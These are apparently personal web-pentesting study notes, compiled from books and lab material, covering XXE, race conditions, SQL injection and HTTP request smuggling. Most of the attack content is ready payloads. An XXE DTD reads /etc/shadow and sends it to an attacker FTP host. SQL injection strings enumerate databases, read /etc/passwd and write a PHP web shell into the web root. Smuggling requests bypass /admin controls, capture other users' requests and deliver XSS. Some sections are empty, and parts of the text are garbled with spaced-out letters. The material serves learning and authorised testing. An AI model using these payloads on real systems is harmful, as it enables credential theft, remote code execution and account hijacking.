#### The File Transfer Protocol (FTP) can also be used to send data directly while bypassing special character restrictions. HTTP has many special character restrictions and typically restricts the length of the URL. Using FTP instead is an easy way to bypass that. To use it, you need to run a simple FTP server on your machine and modify your malicious DTD accordingly. I used the simple Ruby server script at https://github.com/ONsec-Lab/scripts/blob/ master/xxe-ftp-server.rb:
	<!ENTITY % file SYSTEM "file:///etc/shadow">
	<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM
	1 'ftp://attacker_server:2121/?%file;'>">
	%ent;
	%exfiltrate;
#### We are using port 2121 here because the Ruby FTP server we are using runs on port 2121, but the correct port to use depends on how you run your server 1.


# <font color="red">RACE</font>
## <font color="red">Mechanism</font>:


## <font color="red">Prevention</font>:


## <font color="red">Haunt</font>:

note : use turbo intruder (a burp extension ) for testing race condition
### <font color="red">step 1-</font >find features prone to race condition :
#### Most of the time, race conditions occur in features that deal with numbers, such as online voting, online gaming scores, bank transfers,e-commerce payments, and gift card balances. Look for these features in an application and take note of the request involved in updating thesenumbers.

#### For example, let’s say that, in your proxy, you’ve spotted the request used to transfer money from your banking site. You should copy this request to use for testing. In Burp Suite, you can copy a request by right-clicking it and selecting Copy as curl command.
### <font color="red"> step2-</font > send simultaneous Requests:
#### You can then test for and exploit race conditions in the target by sending multiple requests to the server simultaneously.

#### For sending multiple request into the server you could just use the cURL command in the linux terminal by chaining them using & sign.

### <font color="red">step 3-</font> Check the Results:
#### <font color="red">Note </font > that whether your attack succeeds depends on the server’s process-scheduling algorithm, which is a matter of luck. However, the more requests you send within a short time frame, the more likely your attack will succeed.

#### Also, many tests for race conditions won’t succeed the first time, so it’s a good idea to try a few more times before giving up.
#### <font color="red">step4- </font > Create a POC


## <font color="red">Escalation</font>:
#### The severity of race conditions depends on the impacted functionality. When determining the impact of a specific race condition, pay attention to how much an attacker can potentially gain in terms of monetary reward or social influence.


## <font color="red">Automation</font>:


# <font color="red">CORS</font>


# <font color="red">SQLi</font> 
## <font color="red">Mechanism</font>
### <font color="red">1- </font > injecting code into sql queries 
### <font color="red">2- </font> using second order SQL injection 


## <font color="red">Prevention</font>
### <font color="red">1-</font> One way of protection is by using prepared statements
#### Prepared statement work by making sure that user-supplied data does not alter your sql query logic This means that instead of passing a complete SQL query to the server to be compiled, you define all the SQL logic first, compile it, and then insert user-supplied parameters into the query right before execution After the parameters are inserted into the final query, the  query will not be parsed and compiled again.

### <font color="red">2- </font>Another way of preventing SQL injections is to use an allow list for allowed values


## <font color="red">Haunt</font>

#### <font color="red">NOTE</font>: Before we dive into each type, a common technique for detecting any SQL injection is to insert a single quote character (') into every user input and look for errors or other anomalies. The single quote is a special character in SQL statements that denotes the end of a query string. If the application is protected against SQL injections, it should treat the single quote as plain data, and inserting a single quote into the input field should not trigger data base errors or change the logic of the database query.

### <font color="red">Step 1:</font>Look for Classic SQL Injections
#### Classic SQL injections are the easiest to find and exploit. In classic SQL injections, the results of the SQL query are returned directly to the attacker in an HTTP response. There are two subtypes: UNION based and error based.

#### error-based SQL injection attacks trigger an error in the database to collect information from the returned error message. For example, we can induce an error by using the CONVERT() function in MySQL:
	
	SELECT Title, Body FROM Emails
	WHERE Username='vickie' AND AccessKey='ZB6w0YLjzvAVmp6zvr'
	UNION SELECT 1,
	CONVERT((SELECT Password FROM Users WHERE Username="admin"), DATE); –-

#### The CONVERT(VALUE, FORMAT) function attempts to convert VALUE to the format specified by FORMAT. Therefore, this query will force the database to convert the admin’s password to a date format, which can sometimes cause the database to throw a descriptive error like this one:
	Conversion failed when trying to convert "t5dJ12rp$fMDEbSWz" to data type "date".


### <font color="red">Step 2:</font> Look for blind sql injection
Also called inferential SQL injections, blind SQL injections are a little harder
to detect and exploit. They happen when attackers cannot directly extract
information from the database because the application doesn’t return SQL
data or descriptive error messages. In this case, attackers can infer informa-
tion by sending SQL injection payloads to the server and observing its sub-
sequent behavior. Blind SQL injections have two subtypes as well: Boolean
based and time based.
Boolean-based SQL injection occurs when attackers infer the structure of
the database by injecting test conditions into the SQL query that will return
either true or false. Using those responses, attackers could slowly infer the
contents of the database. 

### <font color="red">Step 3:</font> Exfiltrate Information by Using SQL Injections

In this case, you’ll need to make the database store information some-
where when it does run the unsafe SQL query. In MySQL, the SELECT. . .INTO
statement tells the database to store the results of a query in an output file on
the local machine. For example, the following query will cause the database
to write the admin’s password into /var/www/html/output.txt, a file located on
the web root of the target web server:

	SELECT Password FROM Users WHERE Username='admin'
	INTO OUTFILE '/var/www/html/output.txt'
We upload to the /var/www/html directory because it’s the default
web directory for many Linux web servers. Then you can simply access
the information by navigating to the /output.txt page on the target: https://
example.com/output.txt. This technique is also a good way to detect second-
order SQL injections, since in second-order SQL injections, there is often a
time delay between the malicious input and the SQL query being executed.

### <font color="red">SQL MAP</font>
#### automatic detecting SQL Injection:
command :
```
sqlmap -u http://127.0.0.1/sqlilabs/Less-2/?id=1 –dbs
```

Sqlmap Tip: For finding writable directories sqlmap –os-shell flag can
be used which, by default, attempts to upload a web shell in common web
server directories. Additionally, it also allows importing custom wordlists
files for a more comprehensive testing approach.

_Tip :To optimize SQLMap’s payload selection, you can narrow down the tech-
niques or sets by using options such as “--technique=E”, which tests for error-
based SQL injection payloads. Additionally, you can enhance precision by
using “--test-filter” or “--test-skip” to selectively target payloads, streamlining
the testing process for known vulnerabilities.

_Tip: In sqlmap, once we have identified an application that is vulnerable to
Boolean-based SQL injection, we can utilize the technique=B option.

_ou can adjust the time delay for time-based blind SQL injection tests using
--time-sec. In SQLmap, the default is five seconds, but you can custom-
ize the delay by specifying an integer after the option._


**Sql injection union based**
 Query without error
	http://127.0.0.1/sqlilabs/Less-2/?id=1+order+by+3--
	
	http://127.0.0.1/sqlilabs/Less-2/?id=1+union+select+null,null,null--

Note: The use of single quote (‘) and double dash (--) in our SQL injec-
tion approach is due to the type of injection being string-based. In a string-
based SQL injection, increasing the count arbitrarily does not yield any
visible results on the screen. This indicates the need to append a single
quote (‘) with each query to properly close the string context before inject-
ing our payload.
3.2.3.6 Determining the Vulnerable Columns
Now that we know there are three columns, we can use the ‘UNION SELECT’
statement to extract data from the database. However, before extracting
data, it’s essential to identify which columns can be used to display data.
This is because some columns may not be suitable for retrieving data due to
database constraints or design. To determine the vulnerable columns, we will
use the following command:
Example

```
h t t p : / / 1 2 7 . 0 . 0 . 1 / s q l i l a b s / L e s s - 2 / ? i d = - 1 + u n i o n +select+1,2,3--
```

Notice that we have used a negative sign before the id. This will nullify the
original query, ensuring that the data displayed as a result of the SQL injec-
tion is clearly distinguishable from any data that would have been returned
by the original query.
An alternative technique involves using a false statement. The logic here is
similar: by supplying the logical operator AND with 1 = 0, which is always false,
we ensure that no data from the original query will be returned. This approach
makes it easier to identify which columns are capable of displaying data.
Example
```
http://127.0.0.1/sqlilabs/Less-2/?id=and 1 = 0 union select 1,2,3–
```
you can use single quote(') , double quote(") percentage symbol (%) percentage symbol  often used in the `Like` clause to search for a specific pattern in the database. if an application improperly allows wildcard searches, which could lead to info disclosure indication of an SQL injection.

**finger Printing database**

using built in functions like : `version()` , `user()`, `database()` 

**Extracting Database Information**

In mysql 5 here is a read-only database named information_schema, which contains
data such as table names, column names, and the database’s privileges for all
other databases.
The access to this information is based on the privileges of
each MySQL user,

**The information_schema** contains several tables that provide information
about databases, tables, and columns for retrieving data:
**information_schema.schemata**: This table contains a list of all the databases
present on the MySQL server.
**information_schema.columns**: This table maintains the names of columns in
every table across all databases.

**Enumerating Databases**:
Query :
```
SELECT * FROM users WHERE id=-1 union select 1,schema_
name,3 from information_schema.schemata-- LIMIT 0,1;
```

**Enumerating Tables from the Database**
Query:
```
u n i o n + s e l e c t + n u l l , g r o u p _ c o n c a t ( t a b l e _ n a m e ) ,
n u l l + f r o m + i n f o r m a t i o n _ s c h e m a . t a b l e s + w h e r e + table_schema='security'--
```
**Extracting Columns from Table
Query:
```
Union select null,group_concat(column_name),null from
information_schema.columns where table_name="security"--
```
**Extracting Data from columns**
Query:

```
Union select null,group_concat(username,0x3a,password),
null from security--

```


### Sql injection to RCE :

**Retrieving Privilage information**

Example :

```
h t t p : / / 1 2 7 . 0 . 0 . 1 / s e a r c h . p h p ? s e a r c h = t m g m ' U N
I O N + S E L E C T + A L L + 1 , 2 , g r o u p _ c o n c a t ( p r i v i l e g e _
type),4+FROM+INFORMATION_SCHEMA.USER_PRIVILEGES--+
```
in mysql utilize functions such as `load_file()` and `load data infile` cat retreive data

**Reading files**
using `load_file` function to read `/etc/passwd` file 

Example:

```
curl "http://127.0.0.1/search.php?search=tmgm'Union+SE
LECT+ALL+1,2,load_file('/etc/passwd'),4--+"
```

<font color=red> NOTE if encountering
errors when reading a file, convert the string to its hexadecimal equivalent.
This approach helps when backslashes disrupt the syntax or if a WAF blocks
file names. </font>

Example:
```
http://127.0.0.1/search.php?search=tmgm'Union+SELECT+
ALL+1,2,load_file(0x2f6574632f686f73746e616d65),4--+
```
Alternatively, the entire file content can also be converted into base64 or
hex. This can be achieved using the “To_base64” functions, which is helpful
in scenarios where we need to use Out-of-Band queries

Example:

```
http://127.0.0.1/search.php?search=tmgm'Union+SELECT
+ALL+1,2,To_base64(load_file(0x2f6574632f686f73746e6
16d65)),4--+
```
**Writing Files**

Next we only need to upload a simple PHP backdoor, which would allow us to execute commands on the system. but before we need to determine a writable directory

**Retreiving working directory**

we can query the `secure_file_priv` variable. 

example in mysql :

```
SELECT @@secure_file_priv;
```

```
http://127.0.0.1/search.php?search=tmgm'Union+SELECT+A
LL+1,2,@@secure_file_priv,4--+
```

Next we will attempt to upload our php code containing the `\<?php system($\_GET\['cmd']);?>` 
payload:

```
UNION+SELECT+ALL+1,2,<?php system([\'cmd\']);?>,4 into
outfile "/var/www/html/shell.php"--+
```
we have used escape characters to handle single quotes , however to avoid errors we could use their hexadecimal equivalent.

```
http://127.0.0.1/search.php?search=tmgm'UNION+SELECT+AL
L+1,2,0x3c3f7068702073797374656d285b27636d64275d293b203
f3e,4+into+outfile+'/var/www/html/shell.php'--+
```
## Error based SQL injection 

he `Extrac-tValue()` function in MySQL is designed to generate an error when it fails to
parse the XML data provided to it. T

o ensure that the ExtractValue() function always triggers an error, we
will pass a character such as 0x7E, which is equivalent to the symbol (~).
This will be treated as malformed input, causing the database to generate a
verbose error message.

_Note: This technique using the ExtractValue() function in SQL injection
does not require the target database to be an XML database or to store data
in XML format.

**Extracting server version**

```
'1 extractvalue(1, CONCAT(0x7e, (SELECT version()),
0x7e)); --
```
**Extracting Table Names**

```
'1 AND extractvalue(rand(), concat(0x7e, (SELECT concat
(0x7e, schema_name) FROM information_schema.schemata
LIMIT 0, 1)))--
```

**Extracting Specific Table Name from Information_schema**

```
'1 AND extractvalue(rand(),concat(0x3a,(SELECT concat
(0x7e,TABLE_NAME) FROM information_schema.TABLES WHERE
TABLE_NAME="users" LIMIT 0,1)))--
```

<font color=red>Note: It is important to note that this technique is effective only on MySQL
version 5.1 or later. Moreover, incorporating the LIMIT function enables the
extraction of specific data segments from the underlying database, as it helps
control the amount of data returned by a query.</font>


**Prefix and suffix**
sometimes the vulnerable code could be like this:

```
$query = "SELECT * FROM users WHERE id = ((' ". $_
GET["id"]. "')) LIMIT 0,1";
```
so if you add the regular order by 1 -- it returns error 
so we need to scape the `(('` by adding the `'))`


### Boolean SQL injection :

 this is typically executed using `“AND”` and `“OR”` operators along with specific conditions to verify data.
For instance, the following syntax checks whether the first character of the first entry in a
specified column is “a”:
```
' AND SUBSTRING((SELECT column FROM table LIMIT 1), 1, 1) = 'a'
```

If this condition is true, the server’s response is typically normal or unchanged,
indicating the condition was met. Conversely, if the first character is not “a”,
the condition evaluates to false. The server’s response in this case might dif-
fer from when the condition is true, like returning a different result or no
result. Let’s consider an application vulnerable to Boolean-based SQL injection.

Example of false statement :
```
http://vulnerablebak.com/index.php?users=all'+OR+
1 = 2--+
```

**Enumerating the Database User**
Let’s assume that the database user is “root”, and our goal is to enumerate
the username

payload:
```
'+OR+SUBSTRING(user(),1,1)='a';--+
```

Based on the response, whether true or false, we can narrow down the range of possible characters. 


### Time Based SQL injection 

Depending on the database you are working with, there are built-in functions available to delay responses. For MySQL servers, the SLEEP() and BENCHMARK() functions are commonly used. For MSSQL servers, WAIT FOR DELAY is used, pg_sleep() for PostgreSQL, and so on.

**Testing for Time-Based SQL Injection**
 IF statement in MySQL

Syntax:
```
IF(condition, true_statement, false_statement)
```

payload:
```
'OR IF(1 = 1, SLEEP(5), 0) -- -
```

We can also use the “time” command in Linux to confirm delay:

```
time curl" http://127.0.0.1:8080/index.php?id='+OR+IF(1
%3d1,+SLEEP(5),+0)%20--%20-
```

**Enumerating Characters Length of Database Name**

Based on this, let’s see how we can confirm the length of the database.

Consider the following payload, which will include a delay of five seconds if the
length of the database is equivalent to 4.

Payload:
```
'OR IF(LENGTH((SELECT DATABASE())) = 4, SLEEP(5), 0) -- -
```

checking for a Five-Character Database Name(No Delay):
```
' OR IF(LENGTH((SELECT DATABASE())) = 5, SLEEP(5), 0) —
```
Checking for a Six-Character Database Name (No Delay):
```
' OR IF(LENGTH((SELECT DATABASE())) = 6, SLEEP(5), 0) --
```
Checking for a Seven-Character Database Name (No Delay):
```
' OR IF(LENGTH((SELECT DATABASE())) = 7, SLEEP(5), 0) --
```
Checking for an Eight-Character Database Name (5-Second Delay):
```
' OR IF(LENGTH((SELECT DATABASE())) = 8, SLEEP(5), 0) --
```

**Enumerating Database Name**


Checking if the first character is “a” (No Delay):
```
' OR IF(ASCII(SUBSTRING((SELECT DATABASE()), 1, 1)) =
ASCII('a'), SLEEP(5), 0) -- -
```
Checking if the first character is “b” (No Delay):
```
' OR IF(ASCII(SUBSTRING((SELECT DATABASE()), 1, 1)) =
ASCII('b'), SLEEP(5), 0) -- -
```
Checking if the first character is “t” (5-Second Delay):
```
' OR IF(ASCII(SUBSTRING((SELECT DATABASE()), 1, 1)) =
ASCII('t'), SLEEP(5), 0) -- -
```
Checking if the second character is “m” (No delay):
```
' OR IF(ASCII(SUBSTRING((SELECT DATABASE()), 2, 1)) =
ASCII('b'), SLEEP(5), 0) -- -
```
Checking if the second character is “m” (5-Second Delay):
```
' OR IF(ASCII(SUBSTRING((SELECT DATABASE()), 2, 1)) =
ASCII('m'), SLEEP(5), 0) -- -
```

### Second-Order SQL Injection:

Second-order SQL injection occurs when input is injected into one part of the application, and the output is revealed later. During this process, the application retrieves and uses stored data without proper validation or sanitization.


**JWT-Based SQL injection**
..


## <font color="red">Escalating the vulnerability </font>
### <font color="red">Gain WebShells</font>:
Let’s say we’re targeting a PHP application. The following piece
of PHP code will take the request parameter named cmd and execute it as a
system command:
	<? system($_REQUEST['cmd']); ?>
	You can use the SQL injection vulnerability to upload this PHP
code to a location that you can access on the server by using INTO OUTFILE. For
example, you can write the password of a nonexistent user and the PHP code
<? system($_REQUEST['cmd']); ?> into a file located at /var/www/html/shell.php on
the target server:
	
	SELECT Password FROM Users WHERE Username='abc'
	UNION SELECT "<? system($_REQUEST['cmd']); ?>"
	INTO OUTFILE "/var/www/html/shell.php"
Since the password of the nonexistent user will be blank, you are essen-
tially uploading the PHP script to the shell.php file. Then you can simply
access your shell.php file and execute any command you wish:
	http://www.example.com/shell.php?cmd=COMMAND
	

# <font color="red"> HOST HEADER INJ..</font>


# <font color="red">HTTP SMUGGLING </font>
## Theory :
##### if a message is received with both a `Transfer-Encoding` header field and a Content-Length header field , the latter MUST be ignored
#### **Content-Length**
The Content-Length entity header indicates the size of the entity-body, in bytes, sent to the recipient.
#### **Transfer-Encoding: chunked**
The Transfer-Encoding header specifies the form of encoding used to safely transfer the payload body to the user. Chunked means that large data is sent in a series of chunks

## Reality :
The **Front-End** (a load-balance / Reverse Proxy) **process** the _**content-length**_ or the _**transfer-encoding**_ header and the **Back-end** server **process the other** one provoking a **desyncronization** between the 2 systems. This could be very critical as **an attacker will be able to send one request** to the reverse proxy that will be **interpreted** by the **back-end** server **as 2 different requests**. The **danger** of this technique resides in the fact the **back-end** server **will interpret** the **2nd request injected** as if it **came from the next client** and the **real request** of that client will be **part** of the **injected request**.

## Particularities :
Remember that in HTTP **a new line character is composed by 2 bytes:**

- **Content-Length**: This header uses a **decimal number** to indicate the **number** of **bytes** of the **body** of the request. The body is expected to end in the last character, **a new line is not needed in the end of the request**.
    
- **Transfer-Encoding:** This header uses in the **body** an **hexadecimal number** to indicate the **number** of **bytes** of the **next chunk**. The **chunk** must **end** with a **new line** but this new line **isn't counted** by the length indicator. This transfer method must end with a **chunk of size 0 followed by 2 new lines**: `0`
    
- **Connection**: Based on my experience it's recommended to use `**Connection: keep-alive**` on the first request of the request Smuggling.

note: When trying to exploit this with Burp Suite **disable** `**Update Content-Length**` **and** `**Normalize HTTP/1 line endings**` in the repeater because some gadgets abuse newlines, carriage returns and malformed content-lengths.

HTTP request smuggling attacks are crafted by sending ambiguous requests that exploit discrepancies in how front-end and back-end servers interpret the `Content-Length` (CL) and `Transfer-Encoding` (TE) headers. These attacks can manifest in different forms, primarily as **CL.TE**, **TE.CL**, and **TE.TE**. Each type represents a unique combination of how the front-end and back-end servers prioritize these headers. The vulnerabilities arise from the servers processing the same request in different ways, leading to unexpected and potentially malicious outcomes.


#### CL.TE Vulnerability (Content-Length used by Front-End, Transfer-Encoding used by Back-End)

- **Front-End (CL):** Processes the request based on the `Content-Length` header.
    
- **Back-End (TE):** Processes the request based on the `Transfer-Encoding` header.

- **Attack Scenario:**
    
    - The attacker sends a request where the `Content-Length` header's value does not match the actual content length.
        
    - The front-end server forwards the entire request to the back-end, based on the `Content-Length` value.
        
    - The back-end server processes the request as chunked due to the `Transfer-Encoding: chunked` header, interpreting the remaining data as a separate, subsequent request.
        
    - **Example:**
        
        
        
        ```
        POST / HTTP/1.1
        Host: vulnerable-website.com
        Content-Length: 30
        Connection: keep-alive
        Transfer-Encoding: chunked
        
        0
        
        GET /404 HTTP/1.1
        Foo: x
        ``` 


#### TE.CL Vulnerability (Transfer-Encoding used by Front-End, Content-Length used by Back-End)

- **Front-End (TE):** Processes the request based on the `Transfer-Encoding` header.
    
- **Back-End (CL):** Processes the request based on the `Content-Length` header.
    
- **Attack Scenario:**
    
    - The attacker sends a chunked request where the chunk size (`7b`) and actual content length (`Content-Length: 4`) do not align.
        
    - The front-end server, honoring `Transfer-Encoding`, forwards the entire request to the back-end.
        
    - The back-end server, respecting `Content-Length`, processes only the initial part of the request (`7b` bytes), leaving the rest as part of an unintended subsequent request.
        
    - **Example:**
        
        
        
        ```
        POST / HTTP/1.1
        Host: vulnerable-website.com
        Content-Length: 4
        Connection: keep-alive
        Transfer-Encoding: chunked
        
        7b
        GET /404 HTTP/1.1
        Host: vulnerable-website.com
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 30
        
        x=
        0
        ```

#### TE.TE Vulnerability (Transfer-Encoding used by both, with obfuscation)

- **Servers:** Both support `Transfer-Encoding`, but one can be tricked into ignoring it via obfuscation.
    
- **Attack Scenario:**
    
    - The attacker sends a request with obfuscated `Transfer-Encoding` headers.
        
    - Depending on which server (front-end or back-end) fails to recognize the obfuscation, a CL.TE or TE.CL vulnerability may be exploited.
        
    - The unprocessed part of the request, as seen by one of the servers, becomes part of a subsequent request, leading to smuggling.
        
    - **Example:**
        
        Copy
        
        ```
        POST / HTTP/1.1
        Host: vulnerable-website.com
        Transfer-Encoding: xchunked
        Transfer-Encoding : chunked
        Transfer-Encoding: chunked
        Transfer-Encoding: x
        Transfer-Encoding: chunked
        Transfer-Encoding: x
        Transfer-Encoding:[tab]chunked
        [space]Transfer-Encoding: chunked
        X: X[\n]Transfer-Encoding: chunked
        
        Transfer-Encoding
        : chunked
        ```

#### **CL.CL Scenario (Content-Length used by both Front-End and Back-End):**

- Both servers process the request based solely on the `Content-Length` header.
    
- This scenario typically does not lead to smuggling, as there's alignment in how both servers interpret the request length.
    
- Example:
    
    
    
    ```
    POST / HTTP/1.1
    Host: vulnerable-website.com
    Content-Length: 16
    Connection: keep-alive
    
    Normal Request
    ```
    
#### **CL != 0 Scenario:**

- Refers to scenarios where the `Content-Length` header is present and has a value other than zero, indicating that the request body has content.
    
- It's crucial in understanding and crafting smuggling attacks, as it influences how servers determine the end of a request.
    
- **Example:**
    
    Copy
    
    ```
    POST / HTTP/1.1
    Host: vulnerable-website.com
    Content-Length: 16
    Connection: keep-alive
    
    Non-Empty Body
    ```


#### Breaking the web server

This technique is also useful in scenarios where it's possible to **break a web server while reading the initial HTTP data** but **without closing the connection**. This way, the **body** of the HTTP request will be considered the **next HTTP request**.

For example, as explained in [**this writeup**](https://mizu.re/post/twisty-python), In Werkzeug it was possible to send some **Unicode** characters and it will make the server **break**. However, if the HTTP connection was created with the header `**Connection: keep-alive**`, the body of the request won’t be read and the connection will still be open, so the **body** of the request will be treated as the **next HTTP request**.

#### Forcing via hop-by-hop headers

Abusing hop-by-hop headers you could indicate the proxy to **delete the header Content-Length or Transfer-Encoding so a HTTP request smuggling is possible to abuse**.


```
Connection: Content-Length
```


## Finding HTTP Request Smuggling 

### Finding CL.TE Vulnerabilities Using Timing Technique

#### Method:
- Send a request that, if the application is vulnerable, will cause the back-end server to wait for additional data.
- **Example:**
    
    
    ```
    POST / HTTP/1.1
    Host: vulnerable-website.com
    Transfer-Encoding: chunked
    Connection: keep-alive
    Content-Length: 4
    
    1
    A
    0
    ```

- **Indicators:**
    
    - Timeouts or long delays in response.
        
    - Receiving a 400 Bad Request error from the back-end server, sometimes with detailed server information.

### Finding TE.CL Vulnerabilities Using Timing Techniques

- **Method:**
    
    - Send a request that, if the application is vulnerable, will cause the back-end server to wait for additional data.
        
    - **Example:**
        
        
        
        ```
        POST / HTTP/1.1
        Host: vulnerable-website.com
        Transfer-Encoding: chunked
        Connection: keep-alive
        Content-Length: 6
        
        0
        X
        ```
        
- - **Observation:**
        
        - The front-end server processes the request based on `Transfer-Encoding` and forwards the entire message.
            
        - The back-end server, expecting a message based on `Content-Length`, waits for additional data that never arrives, causing a delay.
            
        
    

### Other Methods to find Vulnerabilities
- Differential Response Analysis:
	- Send slightly varied versions of a request and observe if the server responses differ in an unexpected way, indicating a parsing discrepancy.
- Using Automated Tools:
	- Tools like Burp Suite's 'HTTP Request Smuggler' extension can automatically test for these vulnerabilities by sending various forms of ambiguous requests and analyzing the responses.
- Content-Length Variance Tests:
	- Send requests with varying `Content-Length` values that are not aligned with the actual content length and observe how the server handles such mismatches. 
- Transfer-Encoding Variance Tests:
	- Send requests with obfuscated or malformed
		`Transfer-Encoding` headers and monitor how differently the front-end and back-end servers respond to such manipulation .
### HTTP Request Smuggling Vulnerability Testing

After confirming the effectiveness of timing techniques, it's crucial to verify if client requests can be manipulated. A straightforward method is to attempt poisoning your requests, for instance, making a request to `/` yield a 404 response. The `CL.TE` and `TE.CL` examples previously discussed in [Basic Examples](https://book.hacktricks.xyz/pentesting-web/http-request-smuggling#basic-examples) demonstrate how to poison a client's request to elicit a 404 response, despite the client aiming to access a different resource.

**Key Considerations**

When testing for request smuggling vulnerabilities by interfering with other requests, bear in mind:

- **Distinct Network Connections:** The "attack" and "normal" requests should be dispatched over separate network connections. Utilizing the same connection for both doesn't validate the vulnerability's presence.
    
- **Consistent URL and Parameters:** Aim to use identical URLs and parameter names for both requests. Modern applications often route requests to specific back-end servers based on URL and parameters. Matching these increases the likelihood that both requests are processed by the same server, a prerequisite for a successful attack.
    
- **Timing and Racing Conditions:** The "normal" request, meant to detect interference from the "attack" request, competes against other concurrent application requests. Therefore, send the "normal" request immediately following the "attack" request. Busy applications may necessitate multiple trials for conclusive vulnerability confirmation.
    
- **Load Balancing Challenges:** Front-end servers acting as load balancers may distribute requests across various back-end systems. If the "attack" and "normal" requests end up on different systems, the attack won't succeed. This load balancing aspect may require several attempts to confirm a vulnerability.
    
- **Unintended User Impact:** If your attack inadvertently impacts another user's request (not the "normal" request you sent for detection), this indicates your attack influenced another application user. Continuous testing could disrupt other users, mandating a cautious approach.

## Abusing HTTP Request smuggling 

### Circumventing Front-End Security via HTTP Request Smuggling

Sometimes, front-end proxies enforce security measures, scrutinizing incoming requests. However, these measures can be circumvented by exploiting HTTP Request Smuggling, allowing unauthorized access to restricted endpoints. For instance, accessing `/admin` might be prohibited externally, with the front-end proxy actively blocking such attempts. Nonetheless, this proxy may neglect to inspect embedded requests within a smuggled HTTP request, leaving a loophole for bypassing these restrictions.

Consider the following examples illustrating how HTTP Request Smuggling can be used to bypass front-end security controls, specifically targeting the `/admin` path which is typically guarded by the front-end proxy:

**CL.TE Example**


```
POST / HTTP/1.1
Host: [redacted].web-security-academy.net
Cookie: session=[redacted]
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Transfer-Encoding: chunked

0
GET /admin HTTP/1.1
Host: localhost
Content-Length: 10

x=
```

In the CL.TE attack, the `Content-Length` header is leveraged for the initial request, while the subsequent embedded request utilizes the `Transfer-Encoding: chunked` header. The front-end proxy processes the initial `POST` request but fails to inspect the embedded `GET /admin` request, allowing unauthorized access to the `/admin` path.

**TE.CL Example**

Copy

```
POST / HTTP/1.1
Host: [redacted].web-security-academy.net
Cookie: session=[redacted]
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 4
Transfer-Encoding: chunked
2b
GET /admin HTTP/1.1
Host: localhost
a=x
0
```

Conversely, in the TE.CL attack, the initial `POST` request uses `Transfer-Encoding: chunked`, and the subsequent embedded request is processed based on the `Content-Length` header. Similar to the CL.TE attack, the front-end proxy overlooks the smuggled `GET /admin` request, inadvertently granting access to the restricted `/admin` path.


#### Revealing front-end request rewriting 

Applications often employ a **front-end server** to modify incoming requests before passing them to the back-end server. A typical modification involves adding headers, such as `X-Forwarded-For: <IP of the client>`, to relay the client's IP to the back-end. Understanding these modifications can be crucial, as it might reveal ways to **bypass protections** or **uncover concealed information or endpoints**.

To investigate how a proxy alters a request, locate a POST parameter that the back-end echoes in the response. Then, craft a request, using this parameter last, similar to the following:


```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Connection: keep-alive
Transfer-Encoding: chunked

0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

search=
```

In this structure, subsequent request components are appended after `search=`, which is the parameter reflected in the response. This reflection will expose the headers of the subsequent request.

It's important to align the `Content-Length` header of the nested request with the actual content length. Starting with a small value and incrementing gradually is advisable, as too low a value will truncate the reflected data, while too high a value can cause the request to error out.

This technique is also applicable in the context of a TE.CL vulnerability, but the request should terminate with `search=\r\n0`. Regardless of the newline characters, the values will append to the search parameter.

This method primarily serves to understand the request modifications made by the front-end proxy, essentially performing a self-directed investigation.

#### Capturing other users' requests

It's feasible to capture the requests of the next user by appending a specific request as the value of a parameter during a POST operation. Here's how this can be accomplished:

By appending the following request as the value of a parameter, you can store the subsequent client's request:


```
POST / HTTP/1.1
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 319
Connection: keep-alive
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net
Content-Length: 659
Content-Type: application/x-www-form-urlencoded
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi

csrf=gpGAVAbj7pKq7VfFh45CAICeFCnancCM&postId=4&name=asdfghjklo&email=email%40email.com&comment=
```

In this scenario, the **comment parameter** is intended to store the contents within a post's comment section on a publicly accessible page. Consequently, the subsequent request's contents will appear as a comment.

However, this technique has limitations. Generally, it captures data only up to the parameter delimiter used in the smuggled request. For URL-encoded form submissions, this delimiter is the `&` character. This means the captured content from the victim user's request will stop at the first `&`, which may even be part of the query string.

Additionally, it's worth noting that this approach is also viable with a TE.CL vulnerability. In such cases, the request should conclude with `search=\r\n0`. Regardless of newline characters, the values will be appended to the search parameter.

#### Using HTTP request smuggling to exploit reflected XSS

HTTP Request Smuggling can be leveraged to exploit web pages vulnerable to **Reflected XSS**, offering significant advantages:

- Interaction with the target users is **not required**.
    
- Allows the exploitation of XSS in parts of the request that are **normally unattainable**, like HTTP request headers.
    

In scenarios where a website is susceptible to Reflected XSS through the User-Agent header, the following payload demonstrates how to exploit this vulnerability:


```
POST / HTTP/1.1
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Cookie: session=ac311fa41f0aa1e880b0594d008d009e
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 213
Content-Type: application/x-www-form-urlencoded

0

GET /post?postId=2 HTTP/1.1
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net
User-Agent: "><script>alert(1)</script>
Content-Length: 10
Content-Type: application/x-www-form-urlencoded

A=
```

This payload is structured to exploit the vulnerability by:

1. Initiating a `POST` request, seemingly typical, with a `Transfer-Encoding: chunked` header to indicate the start of smuggling.
    
2. Following with a `0`, marking the end of the chunked message body.
    
3. Then, a smuggled `GET` request is introduced, where the `User-Agent` header is injected with a script, `<script>alert(1)</script>`, triggering the XSS when the server processes this subsequent request.
    

By manipulating the `User-Agent` through smuggling, the payload bypasses normal request constraints, thus exploiting the Reflected XSS vulnerability in a non-standard but effective manner.

#### Exploiting On-site Redirects with HTTP Request Smuggling

Applications often redirect from one URL to another by using the hostname from the `Host` header in the redirect URL. This is common with web servers like Apache and IIS. For instance, requesting a folder without a trailing slash results in a redirect to include the slash:


```
GET /home HTTP/1.1
Host: normal-website.com
```

Results in:


```
HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

